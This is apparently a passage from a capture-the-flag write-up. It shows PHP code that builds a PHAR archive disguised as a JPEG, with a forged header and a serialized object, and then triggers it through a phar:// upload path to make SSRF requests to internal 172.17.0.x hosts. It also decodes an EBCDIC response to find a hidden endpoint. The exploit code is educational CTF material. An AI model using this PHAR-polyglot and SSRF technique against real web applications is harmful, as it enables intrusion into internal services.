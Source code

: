 ```
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");

class MainClass {}
$object = new MainClass;
$object->url = 'http://172.17.0.1';
$phar->setMetadata($object);
$phar->stopBuffering();

rename("test.phar","fake_iamge.jpg");
?>
```

Mime check post data : **phar://uploads/file_name.jpeg**

Give us back the same web app

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182117-0aeb2280-27fa-11e9-84c3-525894f28f23.png"></p>

So 172.17.0.1 == Web task,need to dig more and find something else

moved to 172.17.0.2 give us new hint for the next step

Change url :

```
$object->url = 'http://172.17.0.2';
```

Which give us something not printable using code page charset :( , browser can't render it back :(

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182258-bc3e8800-27fb-11e9-98f3-a1d408ef62ef.png"></p>

```
File is not an image. http://172.17.0.2b'\xc8\x85\x93\x93\x96@a\x86\x85\xa3\x83\x88\xa1l\xad\xbd_|]M@@\x94\x85'
```

We need to brute force all possible charset and get the result , we get some clear text using CPXXX encoding charset

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182375-c01eda00-27fc-11e9-95f8-328111e8b98f.png"></p>

Its look like **Hello /fetch~'string-garbage' me**

So until here we need just to try using one of this result (ecode garbage stuff) and send SSRF request again 

lets try with CP1047 **Hello /fetch~%[]^@)(  me**, urlencode this **/%66%65%74%63%68%7e%25%5b%5d%5e%40%29%28** (else we get Bad request from server)

```
<?php
$jpeg_header_size =
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
```